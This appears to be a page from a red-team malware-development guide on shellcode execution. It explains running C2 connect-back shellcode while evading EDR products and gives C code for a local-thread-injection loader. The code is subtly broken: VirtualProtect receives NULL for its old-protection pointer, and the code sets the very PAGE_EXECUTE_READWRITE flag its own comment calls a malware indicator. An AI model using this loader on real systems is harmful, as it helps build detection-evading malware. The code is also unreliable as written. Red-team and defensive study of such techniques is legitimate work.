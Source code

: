 ```yaml
---
title: Malware Execution
---
```


In most malware produced by the red-team, the goal is to execute a shellcode that will connect back to the C2 framework. The whole trick is how to do it to avoid detection.

## 1. Shellcode Execution

Shellcode execution is a very broad topic. There are a lot of different techniques on how to do it. Actually the vast majority of ways to execute a shellcode boil down to a few basic steps. The various techniques differ in the way these steps are executed, the WinAPI functions used, etc.

1. Allocate executable memory for the shellcode;
2. Write the shellcode to the allocated memory;
3. Execute the shellcode memory;

The whole game is to perform all these necessary operations in such a way that the EDRs do not realize that they are dealing with malware. Various tricks are used for this purpose.
Basic technique

### 1.1. Local thread injection

One of the most basic shellcode execution techniques is to create a local thread. This is just an example, this technique is very well known but it illustrates very well the basics of the whole process:

```c
// 1. Allocate memory
PVOID shellcode_mem = VirtualAlloc(
  NULL,
  shellcode_size,
  MEM_COMMIT | MEM_RESERVE,
  PAGE_READWRITE // Using PAGE_EXECUTE_READWRITE is an indicator of malware
);
 
// 2. Copy original shellcode to the allocated memory
memcpy(shellcode_mem, SHELLCODE, shellcode_size);
 
// 3. Make memory executable
VirtualProtect(
  shellcode_mem,
  shellcode_size,
  PAGE_EXECUTE_READWRITE,
  NULL
);
 
// 4. Create a new thread and execute the shellcode memory
HANDLE thread = CreateThread(NULL, NULL, shellcode_mem, NULL, NULL, NULL);
 
// 5. Wait for the thread
WaitForSingleObject(thread, INFINITE);
```
